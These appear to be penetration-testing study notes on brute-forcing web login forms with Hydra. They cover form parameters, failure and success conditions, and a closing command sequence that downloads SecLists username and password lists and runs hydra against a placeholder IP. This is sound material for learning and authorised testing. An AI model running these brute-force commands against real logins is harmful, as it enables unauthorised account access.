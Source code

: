 ** Basic Login Form Example
```shell-session
<form action="/login" method="post">
  <label for="username">Username:</label>
  <input type="text" id="username" name="username"><br><br>
  <label for="password">Password:</label>
  <input type="password" id="password" name="password"><br><br>
  <input type="submit" value="Submit">
</form>
```
This send a POST request to the /login endpoint on the server
```shell-session
POST /login HTTP/1.1
Host: www.example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

username=john&password=secret123
```


## http-post-form
```shell-session
hydra [options] target http-post-form "path:params:condition_string"
```

** Failed attempt
```shell-session
hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:F=Invalid credentials"
```
- F indicates the failed attempt message (could be Invalid username or password, etc.)

** Successful attempt
```shell-session
hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=302"
hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=Dashboard"
```
- S indicates the success message (302 for successful login and redirect, Dashboard appearing on page, etc.)

** Use the inspect tool to find parameters and the network tool to see POST request

** Use a proxy when possible (BURP, ZAP)

## Constructing the param string for Hydra
- Form parameters: ^USER^ and ^PASS^ will be replaced with words from wordlist
- Additional fields: CSRF tokens
- Success Condition

```shell-session
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f IP -s 5000 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
```
